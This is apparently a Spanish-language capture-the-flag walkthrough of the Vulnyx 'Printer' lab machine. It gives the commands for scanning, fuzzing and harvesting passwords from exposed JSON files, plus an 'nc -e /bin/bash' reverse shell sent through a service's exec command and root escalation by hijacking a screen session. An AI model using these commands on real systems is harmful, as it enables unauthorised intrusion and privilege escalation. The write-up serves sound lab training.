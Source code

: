 ```yaml
---
layout: post
title: "Printer"
date: 2024-04-30 13:20:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Printer </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#printer"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/printer/host.png){:.margin}

**1\.** Listamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/printer/arp.png){:.margin}

**2\.** Escaneamos puertos y servicios en la máquina Printer.

`sudo nmap -p- --open -T5 -sS -sCV --min-rate=5000 -n -Pn 192.168.1.6 -oN report`

![img](/notas/public/img/vulnyx/printer/nmap.png){:.margin}

_\- El el servidor apache no tenemos nada, incluso fuzzeando no tenemos nada._

**3\.** Tenemos servidor Abyss, intentamos acceder, pero nos pide una contraseña.

`nc 192.168.1.6 9999`

![img](/notas/public/img/vulnyx/printer/konica_panel.png){:.margin}

**4\.** Hacemos fuzzing en busca de directorios; encontramos api.

`gobuster dir -u http://192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50`

![img](/notas/public/img/vulnyx/printer/gobuster_api.png){:.margin}

**5\.** Seguimos fuzzeando un poco más; tenemos directorio printers.

`gobuster dir -u http://192.168.1.6/api/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt`

![img](/notas/public/img/vulnyx/printer/gobuster_printers.png){:.margin}

**6\.** Vemos que apuntando a esta ruta nos da un formato de búsqueda.

`http://192.168.1.6/api/printers/`

![img](/notas/public/img/vulnyx/printer/format_printer.png){:.margin}

**7\.** Fuzzeamos el id y la extensión correspondiente; encontramos id validos en formato json.

`wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,json,php,html,txt 'http://192.168.1.6/ api/printers/printerFUZZ.FUZ2Z'`

![img](/notas/public/img/vulnyx/printer/wfuzz_id.png){:.margin}

**8\.** Vamos viendo contraseñas en los archivos json con las ids que obtuvimos.

`http://192.168.1.6/api/printers/printer1599.json`

![img](/notas/public/img/vulnyx/printer/id_json.png){:.margin}

**9\.** Probamos cada contraseña; asi obtenemos acceso.

`nc 192.168.1.6 9999`

![img](/notas/public/img/vulnyx/printer/konica_login.png){:.margin}

**10\.** Vemos comandos disponibles.

`?`

![img](/notas/public/img/vulnyx/printer/konica_help.png){:.margin}

_\- Tenemos exec que nos permite ejecutar un comando._

**11\.** Probamos el ejemplo que nos da.

`exec id`

![img](/notas/public/img/vulnyx/printer/exec_id.png){:.margin}

**12\.** Aprovechamos para obtener un reverse shell.


_\- Primero nos ponemos en escucha._

`sudo nc -nlvp`

![img](/notas/public/img/vulnyx/printer/nc_listen.png){:.margin}

_\- Obtenemos la shell._

`exec nc -e /bin/bash 192.168.1.6 443`

`id`

`whoami`

![img](/notas/public/img/vulnyx/printer/nc_connected.png){:.margin}

**13\.** Ponemos la shell totalmente interactiva.

`python -c 'import pty; pty.spawn("/bin/bash")'`

![img](/notas/public/img/vulnyx/printer/shell_interactive.png){:.margin}

**14\.** Tratamos un poco los variables de entorno.

`export TERM=xterm`

`export SHELL=bash`

![img](/notas/public/img/vulnyx/printer/export.png){:.margin}

**15\.** Buscamos binarios sudoers; tenemos varios.

`find / -type -perm -4000 2>/dev/null`

![img](/notas/public/img/vulnyx/printer/find.png){:.margin}

**16\.** Buscando info de cada binario, usaremos el binario [screen](https://book.hacktricks.xyz/v/es/linux-hardening/privilege-escalation#secuestro-de-sesiones-de-pantalla) para escalar privilegios.

`screen -x root/`

_\- Ya somos usuario root._

**17\.** Finalizo obteniendo la flag de root :) .

`ls`

`cat root.txt`

![img](/notas/public/img/vulnyx/printer/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>